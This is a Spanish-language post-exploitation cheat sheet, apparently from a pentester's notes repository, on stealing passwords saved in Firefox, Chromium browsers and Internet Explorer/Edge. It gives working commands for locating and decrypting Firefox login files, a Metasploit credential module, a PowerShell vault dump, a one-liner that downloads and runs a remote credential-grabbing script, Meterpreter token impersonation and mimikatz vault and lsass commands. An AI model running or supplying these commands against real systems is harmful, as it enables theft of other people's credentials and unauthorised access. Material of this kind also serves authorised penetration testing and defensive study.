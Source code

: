 ```yaml
---
title: Browser Dump Credentials
published: true
---
```


# BROWSER DUMP CREDENTIALS

## Table of contents

- [BROWSER DUMP CREDENTIALS](#browser-dump-credentials)
  - [Volcado de contraseñas almacenadas de Mozilla Firefox](#volcado-de-contraseas-almacenadas-de-mozilla-firefox)
    - [firepwd](#firepwd)
    - [firefox decrypt](#firefox-decrypt)
    - [METASPLOIT](#metasploit)
    - [IMPORTAR PERFIL DESDE CONSOLA](#importar-perfil-desde-consola)
  - [Volcado de contraseñas almacenadas de Google Chrome - Opera - Brave](#volcado-de-contraseas-almacenadas-de-google-chrome---opera---brave)
    - [REQUISITOS](#requisitos)
    - [EXPLOTACION](#explotacion)
  - [Volcado de contraseñas almacenadas de Internet Explorer](#volcado-de-contraseas-almacenadas-de-internet-explorer)
    - [REQUISITOS](#requisitos)
    - [VOLCAR CON POWERSHELL](#volcar-con-powershell)
    - [VOLCAR DESDE SHELL NT AUTHORITY SYSTEM](#volcar-desde-shell-nt-authority-system)
  - [FUENTE](#fuente)

## Volcado de contraseñas almacenadas de Mozilla Firefox

Cómo funciona: según la versión, Firefox almacenará los nombres de usuario y las contraseñas en los siguientes archivos:

-   Firefox < 32 (key3.db, signons.sqlite)
-   Firefox >=32 (key3.db, inicios de sesión.json)
-   Firefox >=58.0.2 (key4.db, inicios de sesión.json)
-   Firefox >=75.0 (sha1 pbkdf2 sha256 aes256 cbc usado por key4.db, logins.json)

Tenga en cuenta que el archivo de clave almacena la clave de cifrado que se usa para cifrar los valores en los archivos sqlite/json. Este ataque en realidad se puede realizar sin conexión, siempre que tengamos los archivos que necesitamos.

El administrador de contraseñas integrado de Mozilla Firefox almacena las credenciales cifradas en **"logins.json"**. Las credenciales se almacenan en **logins.json** y se cifran con una clave que se almacena en el archivo **"key4.db"**. 

Ambos archivos se encuentran en un determinado directorio de Windows.

```bash
%LocalAppData%\Mozilla\Firefox\Profiles\randomString.Default\logins.json	

#o 

%USERPROFILE%\appdata\roaming\mozilla\firefox\profiles\<RANDOMSTRING>.default
```

en linux podemos buscar con `find` desde la carpeta raiz `~`:

```bash
find . -type f -name logins*

#resultado

./.mozilla/firefox/k2laopy5.default-release/logins.json
./.mozilla/firefox/k2laopy5.default-release/logins-backup.json
./.mozilla/firefox/btjnapfh.default-release-2/logins.json
./.mozilla/firefox/btjnapfh.default-release-2/logins-backup.json
find: ‘./.gvfs’: Permission denied
```

**A VECES PUEDE ESTAR EN EL DIRECTORIO DEL USUARIO COMO .firefox (oculto)**

Copie todos los archivos de este directorio y paselos a su equipo Kali.

### firepwd

podemos usar la herramienta [firepwn](https://github.com/lclevy/firepwd) para descifrar los archivos una vez pasados a la maquina kali:

```bash
git clone https://github.com/lclevy/firepwd
cd firepwd  
pip3 install -r requirements.txt
```

```bash
python3 firepwd.py -v #si los archivos estan en el directorio actual

#el parametro -d pide obligatorio un "/" al final
python3 firepwd.py -v -d firefox_DB/ #en un directorio especifico
```

Tenga en cuenta que Firefox tiene la opción de establecer una contraseña maestra para proteger los inicios de sesión. Nunca he visto a alguien realmente usar esto. Sin embargo, si uno está en uso, debe especificarlo con la opción `-p`.

```bash
python3 firepwd.py -v -d firefox_DB/ -p password #en caso de tener password el archivo logins.json
```

### firefox decrypt

la herramienta [firefox_decrypt](https://github.com/Unode/firefox_decrypt) funciona similar al anterior:

```bash
git clone https://github.com/unode/firefox_decrypt.git
cd firefox_decrypt

python firefox_decrypt.py /path/firefox/db
```

### METASPLOIT

```bash
run post/multi/gather/firefox_creds
```

### IMPORTAR PERFIL DESDE CONSOLA

Firefox tiene una serie de comandos desde consola:

```bash
#iniciar firefox
firefox
/usr/bin/firefox

#abrir una nueva ventana
/usr/bin/firefox www.cyberciti.biz

#abrir un nuevo tab
/usr/bin/firefox --new-window http://www.cyberciti.biz/

#Puede buscar palabras (término) con su motor de búsqueda predeterminado
/usr/bin/firefox --search "term"  
/usr/bin/firefox -search "linux add user to group"

#abrir las preferencias de firefox
/usr/bin/firefox --preferences

### Establecer Firefox como navegador predeterminado
/usr/bin/firefox --setDefaultBrowser
```

si por ejemplo tenemos los datos de firefox (sha1 pbkdf2 sha256 aes256 cbc usado por key4.db, logins.json) podemos inportar el perfil con esos datos:

```bash
firefox --profile .firefox/b5w4643p.default-release
```

Para obtener información personal sobre este perfil, ingresé `about:logins` en la barra de direcciones del navegador. Alternativamente, el acceso es posible con un clic en el icono de perfil y "Inicios de sesión y contraseñas".

Allí encontré las credenciales del perfil.

- [https://marcorei7.wordpress.com/2021/05/12/133-glitch/](https://marcorei7.wordpress.com/2021/05/12/133-glitch/)

## Volcado de contraseñas almacenadas de Google Chrome - Opera - Brave

Chrome, Brave y Opera están construidos sobre Chromium, y todos funcionan bajo el capó más o menos de la misma manera. Como resultado, todos almacenan contraseñas más o menos iguales.

### REQUISITOS

-  un shell como el usuario del que desea robar las credenciales
- permisos NT Authority\\System
-   PowerShell y una copia de System.Data.Sqlite.dll
-   Mimikatz

### EXPLOTACION

- [https://kylemistele.medium.com/stealing-saved-browser-passwords-your-new-favorite-post-exploitation-technique-c5e72c86159a](https://kylemistele.medium.com/stealing-saved-browser-passwords-your-new-favorite-post-exploitation-technique-c5e72c86159a)


## Volcado de contraseñas almacenadas de Internet Explorer

Versiones antiguas de Edge usan la bóveda (Vault) de credenciales (como IE), las versiones mas nuevas de IE más nuevas las guardan en la nube en los servidores de Microsoft si ha iniciado sesión en una cuenta de Microsoft. Todavía vale la pena comprobarlo de cualquier manera.

### REQUISITOS

-  un shell como el usuario del que desea robar las credenciales
- permisos NT Authority\\System

### VOLCAR CON POWERSHELL

```bash
[void[Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]

$vault = New-Object Windows.Security.Credentials.PasswordVault

$vault.RetrieveAll() | % { $_.RetrievePassword();$_ } | select username,resource,password
```

```bash
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/HanseSecure/credgrap_ie_edge/master/credgrap_ie_edge.ps1')"
```

### VOLCAR DESDE SHELL NT AUTHORITY SYSTEM

Tiene un par de opciones para este ataque si se ejecuta en un shell de alta integridad. Si está ejecutando Meterpreter, puede usar los siguientes comandos para hacerse pasar por un usuario:

```bash
load incognito  
list tokens -u  
impersonate_token <SOME_TOKEN>  
shell
```

mimikatz:

```bash
vault::cred  
vault::list



sekurlsa::minidump lsass.dmp # load the memory dump  
vault::cred  
vault::list
```

## FUENTE

- [https://kylemistele.medium.com/stealing-saved-browser-passwords-your-new-favorite-post-exploitation-technique-c5e72c86159a](https://kylemistele.medium.com/stealing-saved-browser-passwords-your-new-favorite-post-exploitation-technique-c5e72c86159a)